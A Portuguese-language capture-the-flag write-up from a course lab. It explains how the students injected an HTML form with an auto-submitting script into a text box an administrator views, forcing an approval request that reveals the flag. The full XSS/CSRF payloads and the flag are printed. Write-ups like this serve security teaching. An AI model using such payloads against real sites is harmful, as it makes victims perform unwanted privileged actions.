

# LOGBOOK6 - CTF - XSS + CSRF
<div align="justify">
<p>Neste CTF, ao entrar no site mencionado, deparamo nos com uma caixa de texto na qual podemos inserir qualquer tipo de conteúdo, e o administrador fornecerá a flag dependendo do input. </p>

<p>
Para analisar o que acontece no site, inserimos um texto e observamos que há uma página com um formulário onde o administrador decide se o input enviado é aceitável (fornecendo assim a flag) ou não. </p>


<p>Com isso em mente, pensamos que poderia ser possível inserir um formulário idêntico ao que o administrador tinha acesso, mas com um 'script' que 'forçasse' o administrador a aceitar o que era enviado.
Analisando o código-fonte da página, verificamos que o 'formulário' que precisa de ser enviado, fornecendo a flag, possui o seguinte código:</p>
</div>

```html
<form method="POST" action="/request/6b14dc9c65f712d891dfffadbfcec3d631d032d4/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
    </div>
</form>
```
Assim, para que o formulário seja 'submited' automaticamente, inserimos o seguinte 'script' no nosso input:
```html
<script>document.getElementById('fake_id').submit()</script>  
<!-- O fake_id é o id colocado no 'form' que foi colocado no input -->
<!-- Este script procura um elemento com ID = fake_id e submete esse formulário -->
```
Com isso, o 'input' que enviamos foi o seguinte:
```html
<form method="POST" id='fake_id' action="http://ctf-fsi.fe.up.pt:5005/request/6b14dc9c65f712d891dfffadbfcec3d631d032d4/approve" role="form">
    <div class="submit">     
        <input type="submit">
    </div> 
</form> 
<script>document.getElementById('fake_id').submit()</script>  
```
<div align="justify">
<p>Após o envio do nosso formulário, a página é recarregada, mostrando a flag, embora esta seja redirecionada para outra página quase instantaneamente. Portanto, para obtermos a flag, assim que enviamos a nossa resposta, pressionamos o botão 'parar' para evitar o redirecionamento automático, conseguindo então obter a flag: flag{a03da844bb383e699a2c1a32c5d4a0d6}.</p>



<p> 
Considerando que de facto o método explicado anteriormente não é assim tão simples de executar, resolvemos alterar o input de forma a que uma nova página fosse aberta com a flag. Para isso, alteramos o 'script' que enviamos para o seguinte:
</p>
</div>

```html
<form method="POST" id='fake_id' action="http://ctf-fsi.fe.up.pt:5005/request/6b14dc9c65f712d891dfffadbfcec3d631d032d4/approve" role="form" target="blank">
    <div class="submit">     
        <input type="submit">
    </div> 
</form> 
<script>document.getElementById('fake_id').submit()</script> 
```
<p> Como se pode perceber, a unica alteração que foi feita foi a adição do atributo 'target="blank"' no 'form' que foi colocado no input. Este atributo faz com que o formulário seja submetido numa nova página, o que permite que a flag seja mostrada. </p>
